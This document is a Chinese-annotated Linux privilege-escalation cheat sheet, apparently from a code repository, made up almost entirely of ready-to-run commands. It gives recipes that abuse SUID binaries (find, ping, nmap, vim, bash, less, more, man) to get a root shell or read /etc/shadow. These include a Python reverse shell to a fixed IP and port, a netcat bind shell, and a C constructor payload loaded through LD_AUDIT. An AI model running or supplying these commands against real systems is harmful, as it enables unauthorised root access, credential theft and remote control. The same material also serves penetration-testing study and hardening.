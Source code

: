 	查找有root权限的SUID文件
	$find / -perm -u=s -type f 2>/dev/null
	$find / -user root -perm -4000 -print 2>/dev/null
	$find / -user root -perm -4000 -exec ls -ldb {} \;
 ##### Find
	$touch xxx
	$/usr/bin/find xxx –exec whoami \;
	$/usr/bin/find xxx –exec python -c 'import 	socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  \;
	&
	>find xxx -exec netcat -lvp 12138 -e /bin/sh \; 然后攻击机主动连接
 ##### Ping
    >cd /tmp
    >mkdir exploit
    >ln /bin/ping /tmp/exploit/cmd
    >exec 3< /tmp/exploit/cmd
    >rm -rf /tmp/exploit/
    >vim payload.c
```c
void __attribute__((constructor)) init()  // 两个下划线
{
     setuid(0);
     system("/bin/bash");
}
```
    >gcc -W -fPIC -shared -o /tmp/exploit payload.c
    >提升到root权限
    >LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
    >id 查看当前权限
 ##### NMAP
	# 进入nmap的交互模式
	>nmap --interactive 
	>!sh
 ##### VIM
	>vim.tiny /etc/shadow
	&
	>vim.tiny
	# 按ESC
	:set shell=/bin/sh
	:shell
 ##### BASH
	>bash –p
 ##### More/Less/Man
	>less /etc/passwd
	!/bin/sh
	>more /etc/passwd
	!/bin/bash
	>man passwd
	!/bin/bash
 ##### CP/MV
	覆盖shadow文件
 ##### AutoSUID
  	https://github.com/IvanGlinkin/AutoSUID/
	自动收集 SUID 可执行文件并找到进一步提升权限的方法。100% 自动化。
	chmod +x AutoSUID.sh
	./AutoSUID.sh